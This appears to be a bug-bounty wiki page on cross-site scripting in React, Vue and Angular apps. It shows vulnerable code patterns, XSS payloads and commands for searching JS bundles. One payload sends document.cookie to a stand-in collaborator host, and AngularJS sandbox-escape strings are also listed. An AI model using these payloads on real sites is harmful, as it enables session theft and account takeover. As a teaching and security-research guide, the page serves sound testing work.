

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/XSS/Framework-XSS

# Framework XSS

Modern frameworks do a decent job of escaping output by default  -  but developers keep finding ways to opt out of those protections. React's `dangerouslySetInnerHTML`, Vue's `v-html`, Angular's `bypassSecurityTrust*`  -  these exist for edge cases and get misused constantly. I look for these patterns in source maps or JS bundles before I start fuzzing.

## React

### `dangerouslySetInnerHTML`

React's escape hatch. If you find user-controlled data flowing into this prop, it's XSS  -  the name literally warns you.

```javascript
// Vulnerable code
function UserBio({ bio }) {
  return <div dangerouslySetInnerHTML={{ __html: bio }} />;
}
 
// Payload  -  any HTML with event handlers

<svg onload=fetch('https://COLLAB/?c='+document.cookie)>
```

Hunt for it in source maps or webpack bundles:

```bash
# Pull source maps
waybackurls target.com | grep "\.js\.map$"
 
# Search bundle for the pattern
curl -s https://target.com/static/main.abc123.js | grep -o "dangerouslySetInnerHTML[^}]*}"
```

### `href="javascript:"` in React

React doesn't block `javascript:` URIs in `href`. If user input flows to a link's `href`:

```javascript
// Vulnerable
function Link({ url }) {
  return <a href={url}>Click here</a>;
}
 
// Payload
javascript:alert(document.domain)
```

React 16.9+ added a deprecation warning but it still executes. Check the React version.

### Server-Side Rendering (Next.js `dangerouslySetInnerHTML`)

SSR means the payload renders on the server and ships in the HTML  -  it's reflected XSS with a React wrapper.

```javascript
// In Next.js pages
<div dangerouslySetInnerHTML={{ __html: props.userContent }} />
```

## Vue.js

### `v-html` Directive

Direct equivalent of `dangerouslySetInnerHTML`. If user data hits `v-html`, it executes as raw HTML.

```html
<!-- Vulnerable template -->
<div v-html="userBio"></div>
 
<!-- Payload -->

<svg onload=alert(document.cookie)>
```

### Vue Template Injection

If user input is somehow compiled as a Vue template (rare but pays well):

```javascript
// Dynamic component compilation
Vue.component('user-template', {
  template: userInput  // Never do this
});
 
// Payload  -  executes JS via Vue's template expression
{{ constructor.constructor('alert(1)')() }}
```

## Angular

### `bypassSecurityTrustHtml`

Angular's DomSanitizer has a family of bypass methods. When a dev uses these to suppress sanitization warnings, they're trusting user data:

```typescript
// Vulnerable service/component
this.safeHtml = this.sanitizer.bypassSecurityTrustHtml(userInput);
 
// Template
<div [innerHTML]="safeHtml"></div>
 
// Payload

```

Other bypass methods to look for:

- `bypassSecurityTrustScript`
- `bypassSecurityTrustUrl`  -  use `javascript:` payload
- `bypassSecurityTrustResourceUrl`  -  use `javascript:` or data URI
- `bypassSecurityTrustStyle`  -  CSS expression injection (IE legacy)

### Angular Template Injection (AngularJS 1.x)

AngularJS (v1) sandbox escapes  -  still out there on legacy apps:

```json
{{constructor.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

Angular 2+ doesn't have a sandbox  -  if template injection is possible it's direct code execution. But Angular 2+ properly separates template from data by default.

## Template Literal Injection (Generic JS)

When user input lands inside a template literal in JS:

```javascript
// Vulnerable
let html = `<div class="${userInput}">`;
 
// Payload  -  close the attribute and inject event handler
" onmouseover="alert(1)
```

## Hunting Framework Vulnerabilities



### Useful JS Bundle Search Commands

```bash
# Enumerate JS files
katana -u https://target.com -jc | grep "\.js$" | sort -u
 
# Search for React dangerous pattern
curl -s https://target.com/static/bundle.js | grep -o "dangerouslySetInnerHTML.\{0,200\}"
 
# Search for Angular bypass
curl -s https://target.com/main.js | grep -o "bypassSecurityTrust.\{0,100\}"
 
# Search for Vue v-html usage (in source maps)
curl -s https://target.com/app.js.map | python3 -c "import sys,json; src=json.load(sys.stdin); [print(s) for s in src.get('sourcesContent',[]) if 'v-html' in (s or '')]"
```

## Impact Note

Framework XSS often bypasses scanners entirely because the injection point is a JS prop, not a raw HTML parameter. The payload never appears in a traditional HTTP response scan. Source review is the only reliable way to find it  -  which is why most hunters miss it, and why it pays well.

## Related

- [XSS Overview](../../../../XSS/)
- [DOM XSS](../../../../Attack-Surface/Web/Injection/XSS/DOM-XSS)
- [WAF Bypass](../../../../Attack-Surface/Web/Injection/XSS/WAF-Bypass)
